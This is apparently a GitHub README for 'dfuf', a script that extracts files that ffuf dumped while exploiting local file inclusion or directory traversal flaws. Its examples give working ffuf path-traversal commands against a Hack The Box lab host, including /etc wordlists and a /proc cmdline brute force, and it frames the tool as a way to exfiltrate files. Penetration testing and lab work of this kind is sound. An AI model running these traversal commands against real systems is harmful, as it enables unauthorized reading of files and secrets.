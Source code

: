# dfuf - Dump Faster U Fool

## About

> The name of **dfuf** was inspired by **ffuf** (Fuzz Faster U Fool)

### Why dfuf?

**ffuf** can save request & response dump to a directory (`-od` option)

This simple script can extract files from the request & response dump saved by **ffuf**.

**ffuf** should be faster than any LFI dumpers available on the public. So, why not use **ffuf** to dump files?

### Example Use Cases

- When one was stuck at initial foothold, he/she might need to dump files via LFI / Directory Traversal vulnerability for further enumeration.

- When getting shell is impossible, one may perform data exfiltration by dumping files via LFI / Directory Traversal vulnerability.

## Demo

[![asciicast](https://asciinema.org/a/FBwbf8oRoy869FkCgR8JjaGeM.svg)](https://asciinema.org/a/FBwbf8oRoy869FkCgR8JjaGeM)

## Installation

Make sure [pipx](https://github.com/pypa/pipx?tab=readme-ov-file#install-pipx) is installed.

```bash
pipx install git+https://github.com/opabravo/dfuf
```

## Usage

```bash
usage: dfuf [-h] -o FFUF_JSON_OUTPUT -od FFUF_OUTPUT_DIR dir_to_save_extracted_files

A tool to extract files from ffuf output

https://github.com/opabravo/dfuf

positional arguments:
  dir_to_save_extracted_files
                        Output directory where extracted files will be saved

options:
  -h, --help            show this help message and exit
  -o FFUF_JSON_OUTPUT, --ffuf-json-output FFUF_JSON_OUTPUT
                        Json output file from ffuf
  -od FFUF_OUTPUT_DIR, --ffuf-output-dir FFUF_OUTPUT_DIR
                        Output directory from ffuf

Usage:
    1. Dump files with ffuf
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json

    2. Extract files from ffuf output
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

Examples:
    1. Common linux files (880 lines) (~8 sec)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    2. Common files under `/etc` (8314 lines) (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w '/usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt' -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    3. Brute force cmdline in `/proc` (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

        View the result in a pretty format :
        $ find ffuf_dump/proc -type f -exec bash -c 'pid=$(echo $0 | cut -d '/' -f3); echo -en "\n$pid | "; cat $0 | tr "\0" " "' {} \; | sort -s -n -k 1,1
```

## License

[MIT](LICENSE)


